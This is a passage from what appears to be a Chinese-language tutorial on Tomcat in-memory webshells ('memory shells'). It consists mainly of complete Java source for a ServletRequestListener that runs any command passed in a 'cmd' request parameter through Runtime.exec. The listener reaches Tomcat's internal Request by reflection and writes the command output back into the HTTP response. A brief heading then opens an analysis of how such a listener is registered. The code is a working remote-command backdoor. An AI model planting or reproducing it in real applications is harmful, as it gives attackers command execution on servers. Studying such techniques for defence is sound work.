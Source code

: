 代码

```java
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import java.io.InputStream;
import java.lang.reflect.Field;

public class ListenerServlet implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        String cmd;
        try {
            cmd = sre.getServletRequest().getParameter("cmd");
            RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
            Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            requestField.setAccessible(true);
            Request request = (Request) requestField.get(requestFacade);
            Response response = request.getResponse();

            if (cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                int i = 0;
                byte[] bytes = new byte[1024];
                while ((i=inputStream.read(bytes))!=-1){
                    response.getWriter().write(new String(bytes, 0, i));
                    response.getWriter().write("\r\n");
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

### Listener注册流程分析

实际上在这里下个断点，鼠标点击跟进的话，会发现可以看到一个类，一个接口。分别是自定义的类实现的接口，另一个也是实现了`ServletRequestListener`接口

![img](img/1671436573397-a162caa3-e652-4cd5-9081-47f3124ccf70.png)
